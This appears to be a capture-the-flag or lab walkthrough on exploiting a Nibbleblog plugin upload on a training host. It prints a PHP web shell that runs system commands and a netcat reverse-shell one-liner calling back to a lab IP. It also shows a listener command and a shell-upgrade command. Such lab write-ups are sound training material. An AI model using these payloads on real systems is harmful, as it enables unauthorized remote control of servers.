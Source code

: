 6 Pages
- Publish
- Comments
- Manage
- Settings
- Themes
- Plugins

- Use the following PHP Code to upload to the Plugin page and see if the command will execute

```php
<?php system('id'); ?>
```

- After the files have uploaded, we must verify the location
- Files were uploaded to 10.129.177.105/nibbleblog/content/private/plugins/my_image/
	- db.xml
	- image.php
- Clicking on the image.php file will execute the *id* command, validating our test was successful
- Now we repeat the same process but with a reverse shell bash one liner and listen for the connection on our machine

**shell.php**
```
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.53 8080 >/tmp/f"); ?>
```

**on our machine**
```
nc -nvlp 8080
```

When you get your shell, you may be in a limited environment
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


